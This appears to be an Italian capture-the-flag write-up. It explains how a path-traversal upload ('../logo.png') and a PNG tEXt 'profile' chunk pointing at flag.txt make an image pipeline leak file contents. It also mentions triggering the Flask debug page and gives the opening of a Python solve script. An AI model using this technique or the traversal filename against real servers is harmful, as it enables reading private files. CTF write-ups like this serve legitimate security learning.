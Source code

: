 1. **Crei un PNG** con un chunk `tEXt`: `profile=/home/chall/flag.txt`.
   (Qualsiasi piccolo PNG valido va bene; la chiave è il chunk di testo `profile`.)
2. **Sovrascrivi il logo reale** caricando quel PNG ma chiamandolo `../logo.png` nel campo del form.
   (Si abusa del path traversal per sostituire il file che il sito poi ridimensiona.)
3. **Attivi l’elaborazione** richiedendo il logo piccolo (es. `/logo-sm.png`).
   La pipeline di immagini legge il valore di `profile` e **incorpora i byte del file** nello stream dell’immagine in uscita.
4. **Esfiltri** scaricando il PNG restituito ed estraendo sequenze esadecimali lunghe dallo stream di byte; le concateni, fai l’`hex-decode` e recuperi il segreto.
5. **La flag** è esattamente il contenuto di `flag.txt` prodotto dallo step 4 (stampato dallo script di supporto).

### Test “one-liner”

È anche possibile fare:

* **Upload (traversal):** `filename=../logo.png` con il tuo PNG costruito come body.
* **Fetch:** `GET /logo-sm.png` -> salvi la risposta -> regex su `[a-f0-9]{5,}`, concateni, `bytes.fromhex(...).decode()`.

### Automazione

Eseguire `python3 solve.py <HOST> <PORT>` fa tutti gli step: costruisce il PNG malevolo con il chunk `profile`, sovrascrive `logo.png`, scarica `logo-sm.png`, estrae sequenze esadecimali dalla risposta, decodifica e **stampa la flag**. (Artefatti: `final_exploit.png` e `final_output.png` per ispezione.)

**Submission finale:** la stringa esatta prodotta dallo step di decodifica (contenuto di `flag.txt`).

**P.S.**: Per trovare il percorso effettivo della flag abbiamo fatto crashare il server per ottenere la pagina di Debug di Flask (`debug=True`).

### Exploit

```python
#!/usr/bin/env python3
import requests
from PIL import Image, PngImagePlugin
import os
import time
import re
import sys

MALICIOUS_PNG_PATH = "final_exploit.png"
OUTPUT_PNG_PATH = "final_output.png"

def create_png(file_to_read):
    img = Image.new("RGB", (10, 10), color="black")
    info = PngImagePlugin.PngInfo()
    info.add_text("profile", file_to_read)
    img.save(MALICIOUS_PNG_PATH, "PNG", pnginfo=info)


def reset_server_cache(upload_url):
    with open("reset_file", "w") as f:
        f.write("reset")
    files = {"file": ("reset", open("reset_file", "rb"), "application/octet-stream")}
    requests.post(upload_url, files=files, timeout=10)
    os.remove("reset_file")
    time.sleep(1)


def main():
    base_url = f"http://{sys.argv[1]}:{sys.argv[2]}" # python solve.py host port
```